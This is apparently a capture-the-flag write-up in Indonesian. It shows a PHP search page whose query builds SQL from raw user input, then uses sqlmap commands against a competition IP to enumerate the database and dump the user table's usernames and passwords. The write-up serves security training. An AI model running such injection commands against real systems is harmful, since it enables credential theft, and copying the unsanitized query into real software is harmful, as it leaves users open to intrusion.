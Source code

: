 # Are you blind yes maybe

diberikan sebuah web berisi sebuah inputan <br>
<img src="img.png"><br>
berikut berupa source code web tsb<br>
```
<html> 
<head> 

</head> 
<body> 
<h1>OTICtf</h1> 
<div id="content"> 

<?php

$servername = "localhost";
$user = "<censored>";
$pass = "<censored>";
$dbname = "sql";

// Create connection
$link = new mysqli($servername, $user, $pass, $dbname);
// Check connection
if ($link->connect_error) {
    die("Connection failed: " . $link->connect_error);
}

/* 
CREATE TABLE `post` (
  `ID` INT(11),  
  `Title` varchar(100), 
  `Text` text,
  `Time`datetime on update CURRENT_TIMESTAMP
);

CREATE TABLE `user` (
  `ID` INT,  
  `username` varchar(10), 
  `password` varchar(60) 
);

*/ 

if(array_key_exists("search", $_REQUEST)) {
        
    $search=$_REQUEST["search"];

    $query = "SELECT * FROM post WHERE Title LIKE \"%".$search."%\" or Text LIKE  \"%".$search."%\"";  
    
    $res = $link->query($query);

    if ($res->num_rows > 0) {
        echo "keyword found";

    } else {
        echo "keyword not found";
    }
    $link->close(); 
}else{
?>
<form action="index.php" method="POST">
Search:<input name="search"><br>
<input type="submit" value="search" />
</form>
<div id="viewsource"><a href="index-source.txt">View sourcecode</a></div>

<?php
$query = "SELECT * FROM post ";
$res = $link->query($query);
echo "<br>";
if ($res->num_rows > 0) {
    // output data of each row
    while($row = $res->fetch_assoc()) {
        echo "<h2>" . $row["Title"]. "</h2>" ;
        echo "<p>" . $row["Text"]. "</p>" ;
        }
}else{
        echo "0 result";
    }

} 
?>
 
</div> 
</body> 
</html> 
```
<br>
diketahui bahwa terdapat celah sqli  pada form tersebut dengan method POST <br>
dicoba dengan melakukan blind sql Injection dengan bantuan sqlmap <br>

``` sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST --dbs ``` <br>

didapat sebuah database bernama `sql`, kita coba temukan tabelnya<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --tables -D \`sql\` ``` <br>

didapat sebuah tabel 'user', coba cek isinya terlebih dahulu.<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --columns -D \`sql\` -T user ``` <br>


didapat hal yang mencurigakan yaitu username dan pasword, langsung saja lakukan dump <br>
``` sqlmap -u http://202.43.92.132:40001/index.php --data="search=s&form=submit" --method POST --dump -D \`sql\` -T user ```<br>

<img src="sqlmap.jpg"><br>

**ASGama{L00k1ng_f0R_s0m3_fl4g?}**
